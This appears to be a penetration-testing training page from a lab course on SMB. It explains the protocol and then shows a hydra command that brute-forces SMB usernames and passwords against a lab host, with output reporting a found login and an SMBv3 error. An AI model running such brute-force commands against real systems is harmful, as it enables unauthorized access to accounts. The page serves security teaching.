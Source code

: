 # **SMB**

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

### **Hydra - SMB**

```
th1nyunb0y@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

However, we may also get the following error describing that the server has sent an invalid reply.

### **Hydra - Error**

```
th1nyunb0y@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).
